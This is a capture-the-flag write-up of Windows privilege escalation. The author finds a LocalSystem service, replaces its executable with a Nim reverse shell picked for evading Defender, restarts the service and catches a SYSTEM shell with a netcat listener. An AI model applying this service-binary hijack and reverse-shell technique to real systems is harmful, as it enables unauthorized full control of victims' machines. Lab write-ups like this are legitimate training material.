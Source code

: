 **Privileged Escalation**

![image](https://github.com/sudo-awk/CTF/assets/106952099/b032f4ba-70fb-4e7e-bb6d-65947c45cb9b)


I tried to run the winPEAS first, but it was flagged down by defender,,, I tried running privesccheker we are able to see a high vulnerability application owned by localsystem

![image](https://github.com/sudo-awk/CTF/assets/106952099/81d07be3-3126-473a-b7e0-a9d69cfcdebf)

```

Name        : spoofer-scheduler
DisplayName : Spoofer Scheduler
ImagePath   : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
User        : LocalSystem
ImagePath   : "C:\Program Files\Dell\SysMgt\oma\bin\dsm_om_connsvc64.exe"     
User        : LocalSystem              
StartMode   : Automatic

```


creating an exploit, I used a nim reverse shell because a it is undetected.. we can follow the tutorial here  `https://github.com/emrekybs/nim-shell`

![image](https://github.com/sudo-awk/CTF/assets/106952099/d0d81a99-0fb1-4bae-a372-80bf5e5a63b0)



after I compiled it,, it would spit out an exe file... we just have to rename it and move it over to our victim machine and restart the `spoofer-scheduler service`

![image](https://github.com/sudo-awk/CTF/assets/106952099/c9e79855-5453-4e71-a336-a94975fc52c9)

I renamed the original file to spoofer-scheduler.exe.bak transferred my file the malicious executable with the same name..and then we will restart the service `sc start spoofer-scheduler` and then `sc stop spoofer-scheduler` while we wait for our listening shell

![image](https://github.com/sudo-awk/CTF/assets/106952099/4315ff3b-634d-45c8-9458-d15fcf353404)

![image](https://github.com/sudo-awk/CTF/assets/106952099/7bdb9a82-8007-48c7-b4c1-7bb2062a4015)


```
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.9.188.76] from (UNKNOWN) [10.10.28.141] 50093
C:\Windows\system32> cd C:\Users\Administrator\Desktop\Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop\Hacking-Targets

06/30/2023  06:40 PM    <DIR>          .
06/30/2023  06:40 PM    <DIR>          ..
06/27/2023  09:40 AM                53 hacking-targets.txt
               1 File(s)             53 bytes
               2 Dir(s)  14,100,426,752 bytes free
C:\Users\Administrator\Desktop\Hacking-Targets> type hacking-targets.txt
Next Victims: 
CyberLens, WorkSmarter, SteelMountain
C:\Users\Administrator\Desktop\Hacking-Targets>  

```
